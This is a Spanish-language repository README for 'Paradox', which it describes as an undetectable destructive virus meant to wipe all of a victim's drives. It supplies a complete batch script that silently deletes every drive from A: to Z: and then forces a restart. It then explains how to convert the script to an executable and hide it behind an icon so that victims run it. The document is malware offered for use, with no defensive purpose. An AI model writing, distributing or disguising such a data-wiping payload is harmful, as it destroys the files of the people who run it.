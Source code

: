 # Paradox

Es un virus destructivo indetectable capas de formatear todas la unidades de disco de la PC de la víctima.

<p align="center">
<img src="./Img/VirusTotal.png">
</p>

## USO
Crearemos un archivo de texto y copiaremos el siguiente código.

```bat
@echo off
rd/s/q A:
rd/s/q B:
rd/s/q C:
rd/s/q D:
rd/s/q E:
rd/s/q F:
rd/s/q G:
rd/s/q H:
rd/s/q I:
rd/s/q J:
rd/s/q K:
rd/s/q L:
rd/s/q M:
rd/s/q N:
rd/s/q O:
rd/s/q P:
rd/s/q Q:
rd/s/q R:
rd/s/q S:
rd/s/q T:
rd/s/q U:
rd/s/q V:
rd/s/q W:
rd/s/q X:
rd/s/q Y:
rd/s/q Z:
shutdown /r
```

Luego lo guardamos con la siguiente extension **archivo.bat**

Ahora usaremos **bat to exe** para convertir a un archivo ejecutable y ocultar el virus con un icono.

[Bat to exe](https://bat-to-exe-converter-x64.softonic.com/#:~:text=BAT%20to%20EXE%20Converter%20es,el%20producto%20final%20est%C3%A9%20protegido.)